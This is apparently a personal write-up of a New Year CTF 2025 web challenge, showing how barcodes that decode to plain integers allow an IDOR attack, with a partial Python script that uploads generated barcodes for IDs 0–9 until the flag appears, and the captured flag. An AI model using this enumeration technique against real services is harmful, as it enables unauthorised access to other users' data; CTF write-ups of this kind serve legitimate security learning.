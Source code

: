 ```yaml
---
date: 2025-01-15
description: IDOR using barcodes
platform: New Year CTF 2025
categories: Web
tags:
  - IDOR
  - file-upload-attacks
duration:
---
```

# IDOR using Barcode
1. Observe that when barcode is decoded it is just an integer of sample 
2. We can generate barcode then upload and to perform IDOR 

```python
def generate_barcode(i): 
	# ...
def upload(i):
    img_buffer = generate_barcode(i)
    files = {"file": (f"xnw_barcode{i}.png", img_buffer, "image/png")}
    resp = requests.post(url, files=files)

for i in range(10):
    resp = upload(str(i))
    print(f"{i}: {resp}")
    if "grodno{" in resp:
        print(f"flag found!!!")
```

![](_attachments/Pasted%20image%2020250115191502.png)
`grodno{7eb13bfd35b2f61de9edb6064e40bfa5}`